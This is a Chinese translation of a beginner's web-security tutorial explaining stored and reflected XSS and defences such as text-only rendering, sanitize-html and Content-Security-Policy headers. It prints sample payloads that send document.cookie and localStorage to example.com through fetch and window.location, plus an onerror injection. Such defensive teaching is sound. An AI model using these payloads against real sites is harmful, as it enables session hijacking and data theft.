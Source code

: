 # 初学者的 XSS 攻击及如何防御

> 原文：<https://javascript.plainenglish.io/xss-attacks-for-beginners-and-how-to-defend-against-them-79347514488a?source=collection_archive---------5----------------------->

![](img/29b481ab224cd4fa78f902587f577dba.png)

Cross-site scripting (javascript injection) attack was performed on Twitter by this tweet.

跨站脚本(XSS)攻击是一种注入式攻击，在这种攻击中，恶意脚本可能被注入到文档中并被执行。据[owasp.org](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html):

*“跨站点脚本(XSS)是一个误称。该名称源于早期版本的攻击，其中跨站点窃取数据是主要焦点。从那以后，它已经扩展到包括基本上任何内容的注入，但是我们仍然称之为 XSS。XSS 是严重的，可能导致帐户冒名顶替、观察用户行为、加载外部内容、窃取敏感数据等。”*

假设您构建了一个应用程序，它接受用户的一些输入，然后将其显示为 h1。这是通过使用 jquery 将 h1 的内部 HTML 设置为按钮单击时的输入值来实现的:

![](img/17d117f2fc2c465c139fd5e89f481759.png)

Take user input and set it as inner HTML

```
$("button").click(function(){         //on button click
  var input = $("input:text").val()   //grab user input
  $("h1").html(input)                 //set h1’s inner html as input
})//for react we would use <h1 dangerouslySetInnerHTML={{ __html: input}} />
```

如果用户使用 HTML 

![](img/e8581b092f9176b4639ad0772cd71f50.png)

User inputs some js code and😲 😲 😲

如您所见，用户注入的 JavaScript 代码被执行了。在上面的示例中，这只是一个简单的警报语句，但是，攻击者可以利用它来执行任何他想要的恶意代码，例如通过获取 cookie(本地存储)来劫持用户的会话，并通过 HTTP 请求将其发送到自己的服务器:

```
<script>fetch("http://www.example.com?stolenGoods=window.localStorage")</script>
```

大多数现代 web 浏览器和框架(如 react)都有内置机制，通过使用 Script 标签将 JavaScript 设置为内部 HTML 来防止注入 JavaScript。最有可能的是，js 代码将被忽略。然而，还有许多其他方式来执行这种攻击，例如使用" **onerror "、" onclick "和" onmouseover"** HTML 属性:

```
<img src="ImageThatDoesNotExist.jpg" onerror="hackersCode()">
```

您可能想知道:如果用户能够在我的网站上执行一些 JavaScript 代码，那又怎么样？毕竟，他无论如何都可以通过控制台做到这一点。为什么我要担心阻止用户在我的网站上运行他自己的脚本，窃取他自己的 cookies 和他已经拥有的数据？

当用户输入被传送到你的后端服务器时，问题就出现了，在那里它也可能被存储在某个数据库中，从那里它可能被其他用户检索。

假设这是一个类似 Reddit 的应用程序上的帖子:

1.  要创建一个新的帖子，您可以在输入框中以 HTML 的形式写下它，然后向 yourwebsite.com 发送一个 HTTP 请求，将帖子作为查询参数(？post=)。
2.  您的服务器接收这个请求，创建帖子并将其保存在数据库中。
3.  希望看到该帖子的其他用户将向服务器发送请求，然后服务器将从数据库中检索该帖子并发送给用户。
4.  文章将以 HTML 格式显示给用户。

现在考虑这个场景:攻击者 **A** 通过将脚本作为用户输入来注入一些脚本，脚本现在存储在您的数据库中。

```
const attackersPost = "<script>hackersCode()</script>";
fetch("https://www.yourwebsite.com/posts/add?post=" + attackersPost)
```

现在，某个想要查看 **A** 的帖子的用户 **B** 将会不知不觉地执行由 **A** 注入的从数据库中获取的脚本。这样，所有查看该帖子的用户都将被黑客攻击！！！这被称为存储 XSS 攻击。

**储存的 XSS 攻击:**

注入的脚本存储在服务器上，当受害者试图访问存储的数据时，被受害者检索并执行。

**映 XSS 的攻击:**

如果攻击者让受害者以某种方式将脚本注入网站，而不是攻击者必须这样做，会怎么样？

让我们以上面的例子为例，用户的输入被发送到服务器，然后通过设置内部 HTML 反射回用户并显示在 DOM 上。攻击者可以通过电子邮件、社交媒体或其他社交工程方法向其目标发送链接。该电子邮件包含一个链接:

```
https://www.yourwebsite.com/posts/add?post=**<script>fetch("http://www.example.com?stolenGoods=" + document.cookie)</script>**//the malicious script will send the victim's cookie to the attacker's server and the attacker can use it to hijack the victim's session on yourwebsite.com!!!
```

当受害者点击此链接时，一个 HTTP 请求被发送到 yourwebsite.com 的服务器，在那里将创建一个帖子，该帖子将恶意脚本作为数据。这篇文章将被反射回受害者(或其他想要查看这篇文章的用户)，当您的网站试图设置内部 HTML 时，注入的脚本将被执行，受害者的 cookie 将被发送到攻击者的服务器。😵 😵 😵

**如何防御 JavaScript 注入攻击:**

通过将用户输入设置为文本而不是 HTML，我们可以很容易地防止第一个示例中的攻击:

```
//instead of
$("h1").html(input)//use this
$("h1").text(input)
```

同样，对于 react，尽量避免使用 dangerouslySetInnerHTML 属性来设置内部 HTML。

但是在您的应用程序中可能会有一些需要设置内部 HTML 的场景。为了防止用户在这种情况下向您的网站注入脚本，您可以在将用户输入设置为 HTML 之前"**净化"**。净化将使任何隐藏在 HTML 中的脚本变得无用。一个流行的 npm 包可以帮你做到这一点，它就是 [sanitize-html](https://www.npmjs.com/package/sanitize-html) 。

除此之外，我们还可以在服务器端建立机制来防止此类攻击。一种流行的方法是使用“**Content-Security-Policy**”HTTP 头。根据 [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) :

*“CSP 通过指定浏览器应视为可执行脚本有效来源的域，使服务器管理员能够减少或消除 XSS 发生的媒介。然后，CSP 兼容浏览器将只执行从那些允许的域接收的源文件中加载的脚本，而忽略所有其他脚本(包括内联脚本和事件处理 HTML 属性)。”*

因此，在您的服务器端，您可以将这个头添加到发送 HTML 文件的 HTTP 响应中，例如 index.html，这将意味着您的文档(HTML)不会执行不是来自您的 website.com 的脚本:

```
res.set("Content-Security-Policy", "script-src https://www.yourwebsite.com")// this means that only scripts from yourwebsite.com will be executed. No inline scripts or scripts from other sources.
```

**请注意，如果您从白名单域中返回的 js 本身遭到破坏，那么 js 注入攻击仍然是可能的。*

您还可以设置 CSP 的" *connect-src"* 属性来指定您的脚本可以将所有域请求发送到什么，这样请求就不会发送到攻击者的域。当我尝试使用 fetch API 向 example.com 发送请求时，控制台中出现了以下错误:

```
fetch("https://www.example.com?q=" + document.cookie)Refused to connect to 'https://www.example.com/' because it violates the following Content Security Policy directive: "connect-src https://localhost https://accounts.google.com https://medium.com https://*.medium.com https://*.medium.com https://medium.com https://*.medium.com 'self'".
```

**请注意，攻击者仍然可以使用*窃取您的 cookies(或其他信息)

```
window.location = "https://www.example.com?q=" + document.cookie
```

在这里，你可以找到更多关于如何保护 cookies 和本地存储的信息。以下是所有 [CSP 指令](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy)的列表。请记住，CSP 检查是由浏览器强制执行的，因此如果用户在其浏览器中禁用此检查，她将容易受到攻击。

好了，您已经在将用户输入设置为 HTML 之前对其进行了净化，您也已经在文档响应中设置了 CSP 头，并且您已经确保来自白名单域的脚本不会受到危害，那么您的网站现在完全不会受到 XSS 攻击了吗？

不完全是，脚本仍然可以通过其他来源注入，如第三方库和软件包、浏览器插件或第三方广告！请确保使用 npm audit 来审核您的依赖项是否存在已知的安全问题。

这里有一个有趣的方法来练习 XSS 攻击，然后再尝试攻击中型:[https://xss-game.appspot.com/level1](https://xss-game.appspot.com/level1)。

*更多内容请看*[***plain English . io***](https://plainenglish.io/)*。报名参加我们的* [***免费周报***](http://newsletter.plainenglish.io/) *。关注我们关于*[***Twitter***](https://twitter.com/inPlainEngHQ)[***LinkedIn***](https://www.linkedin.com/company/inplainenglish/)*[***YouTube***](https://www.youtube.com/channel/UCtipWUghju290NWcn8jhyAw)*[***不和***](https://discord.gg/GtDtUAvyhW) ***。*****

*****对缩放您的软件启动感兴趣*** *？检查* [***电路***](https://circuit.ooo/?utm=publication-post-cta) *。***